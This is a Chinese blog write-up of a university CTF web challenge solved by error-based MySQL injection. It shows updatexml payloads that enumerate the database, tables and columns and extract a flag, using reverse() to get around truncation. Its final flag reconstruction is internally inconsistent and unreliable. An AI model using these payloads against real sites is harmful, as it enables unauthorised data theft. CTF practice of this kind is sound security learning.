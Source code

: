 <!--yml
category: 未分类
date: 2022-04-26 14:54:12
-->

# 第三届上海市大学生网络安全大赛 i春秋CTF Web解题思路_曹振国cc的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_45736958/article/details/116329558](https://blog.csdn.net/weixin_45736958/article/details/116329558)

### 1.发现SQL注入

![在这里插入图片描述](img/d7c0aeae43d51c55a7ff0a5c5eccb6d7.png)

```
?id=1			有数据
?id=2			有数据
?id=2-1			有数据 
```

### 2.尝试SQLMap

<font>发现报错：
![在这里插入图片描述](img/c35ab1af7a2b576935558f9b033464c3.png)</font>

### 3.经实验发现过滤了"=“和"and”

发现页面会返回错误信息，尝试报错注入：
![在这里插入图片描述](img/1a72d8d73f7d44b38a111f97096344b9.png)

```
用到函数:updatexml
updatexml(目标xml内容，xml文档路径，更新的内容)
查询库名
?id=updatexml(1,concat(0x7e,(select database()),0x7e),1)  发现库名：word 
```

![在这里插入图片描述](img/da51a26ba3e207f8a5d7c3858b51ef11.png)

```
查询有多少张表:
?id=updatexml(1,concat(0x7e,(select count(*) from information_schema.tables ),0x7e),1) 
```

![在这里插入图片描述](img/494cb3d53c2058b292dfa28a04d38ff0.png)

```
查询表名：
?id=updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 0,1),0x7e),1)
至
?id=updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 83,1),0x7e),1) 
```

发现有张**f14g**的表
![在这里插入图片描述](img/6eb43be18c3fd7edc3c1af6db3e9e029.png)

```
查询字段数:
?id=updatexml(1,concat(0x7e,(select count(*) from information_schema.columns ),0x7e),1) 
```

![在这里插入图片描述](img/1e0e88dc3242bca3f8b0363b3e72d6fd.png)

```
查询字段名：
?id=updatexml(1,concat(0x7e,(select column_name from information_schema.columns limit 0,1),0x7e),1)
至
?id=updatexml(1,concat(0x7e,(select column_name from information_schema.columns limit 811,1),0x7e),1) 
```

找到**f14g**字段
![在这里插入图片描述](img/fb241eb6eff4afccdeeaaeee426b6883.png)

```
读出数据
?id=updatexml(1,concat(0x7e,(select f14g from f14g),0x7e),1)
发现flag信息不全
flag{b892889e-6bbd-421d-b984-d6 
```

### reverse()函数

![在这里插入图片描述](img/294d5a61a5aa64ad51da125faf632cd9.png)
![在这里插入图片描述](img/f2cde005f507946cfdd5660e91c78e82.png)

```
颠倒flag内容，从后往前取
?id=updatexml(1,concat(reverse((select f14g from f14g))),1)
}ef99546fdb6d-489b-d124-dbb6-e98 
```

![在这里插入图片描述](img/1f7b00860462cc2ee5f46d1a795829d3.png)

### flag

```
flag{b892889e-6bbd-421d-b984-d6

}ef99546fdb6d-489b-d124-dbb6-e98
取反：
89e-6bbd-421d-b984-d6dbf64599fe}

flag{b892889e-6bbd-421d-b984-d66dbf64599fe} 
```

<font>所以最后flag为：flag{b892889e-6bbd-421d-b984-d66dbf64599fe}。</font>

* * *

## 总结

<font>不知道为什么i春秋里的这道题flag提交一直报错。。。。。。也是无语了</font>

![在这里插入图片描述](img/bdf0337a35971e8cca90467e2e8493f1.png)